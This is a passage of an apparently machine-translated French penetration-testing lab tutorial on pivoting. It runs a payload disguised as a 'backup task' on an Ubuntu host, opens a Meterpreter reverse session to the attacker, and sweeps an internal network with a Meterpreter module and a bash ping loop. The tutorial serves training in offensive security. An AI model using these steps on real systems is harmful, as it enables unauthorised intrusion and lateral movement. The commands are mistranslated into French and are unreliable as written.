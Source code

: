 Exécution de la charge utile sur l'hôte pivot

```
ubuntu@WebServer :~$ ls

tâche de sauvegarde
ubuntu@WebServer :~$ chmod +x tâche de sauvegarde
ubuntu@WebServer :~$ ./tâche de sauvegarde

```

Nous devons nous assurer que la session Meterpreter est établie avec succès lors de l'exécution de la charge utile.

#### Création d'une session Meterpreter

Création de session Meterpreter

```
[*] Étape d'envoi (3020772 octets) à 10.129.202.64
[*] Meterpreter session 1 ouverte (10.10.14.18:8080 -> 10.129.202.64:39826 ) au 2022-03-03 12:27:43 -0500
meterpreter > pwd

/accueil/ubuntu

```

Nous savons que la cible Windows se trouve sur le réseau 172.16.5.0/23. Donc, en supposant que le pare-feu sur la cible Windows autorise les requêtes ICMP, nous voudrions effectuer un balayage ping sur ce réseau. Nous pouvons le faire en utilisant Meterpreter avec le module `ping_sweep` , qui générera le trafic ICMP de l'hôte Ubuntu vers le réseau `172.16.5.0/23`.

#### Balayage ping

Balayage de ping

```
meterpreter > exécuter post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Effectuer un balayage ping pour la plage IP 172.16.5.0/23

```

Nous pourrions également effectuer un balayage ping à l'aide d'une `boucle for` directement sur un hôte pivot cible qui enverra un ping à n'importe quel appareil dans la plage de réseau que nous spécifions. Voici deux balayages ping utiles pour les lignes simples que nous pourrions utiliser pour les hôtes pivot basés sur Linux et Windows.

#### Ping Sweep For Loop sur les hôtes Linux Pivot

Ping Sweep For Loop sur les hôtes Linux Pivot

```
for i in {1..254} ;faire (ping -c 1 172.16.5.$i | grep "octets de" &) ;fait

```
